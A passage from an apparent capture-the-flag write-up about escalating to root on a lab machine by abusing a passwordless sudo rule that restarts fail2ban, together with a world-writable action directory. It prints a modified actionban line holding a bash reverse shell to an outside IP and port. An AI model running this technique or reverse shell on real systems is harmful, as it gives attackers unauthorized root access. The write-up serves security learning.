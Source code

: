 ## Vertical Privilege Escalation

I repeat the `sudo -l` command with user **fred** and now the output is different:

```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

The **fail2ban** is an intrusion software that have the ability to ban the IPs based on its configuration. The `iptables-mutliport.conf` contains the `actionban` which triggers ban on multiple login attempts.

First, I locate the **fail2ban** location and the configuration files inside:

```
fred@biteme:~$ whereis fail2ban
fail2ban: /etc/fail2ban /usr/share/man/man1/fail2ban.1.gz
fred@biteme:~$ ls -l /etc/fail2ban
total 64
drwxrwxrwx 2 root root  4096 Nov 13  2021 action.d
-rw-r--r-- 1 root root  2334 Jan 18  2018 fail2ban.conf
drwxr-xr-x 2 root root  4096 Apr  4  2018 fail2ban.d
drwxr-xr-x 3 root root  4096 Nov 13  2021 filter.d
-rw-r--r-- 1 root root 22897 Jan 18  2018 jail.conf
drwxr-xr-x 2 root root  4096 Nov 13  2021 jail.d
-rw-r--r-- 1 root root    99 Nov 13  2021 jail.local
-rw-r--r-- 1 root root   645 Jan 18  2018 paths-arch.conf
-rw-r--r-- 1 root root  2827 Jan 18  2018 paths-common.conf
-rw-r--r-- 1 root root   573 Jan 18  2018 paths-debian.conf
-rw-r--r-- 1 root root   738 Jan 18  2018 paths-opensuse.conf
```

Then I copy the `iptables-multiport.conf` to user **fred**’s directory to have the permission on modifying it:

```
fred@biteme:/etc/fail2ban$ cp action.d/iptables-multiport.conf /home/fred/
fred@biteme:/etc/fail2ban$ cd /home/fred/
fred@biteme:/home/fred$ ls -l
total 4
-rw-r--r-- 1 fred fred 1420 Oct 16 03:07 iptables-multiport.conf
```

Next, I comment the default `actionban` line and create my own one within reverse shell payload:

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = bash -c 'bash -i >& /dev/tcp/10.9.63.75/4444 0>&1'
```
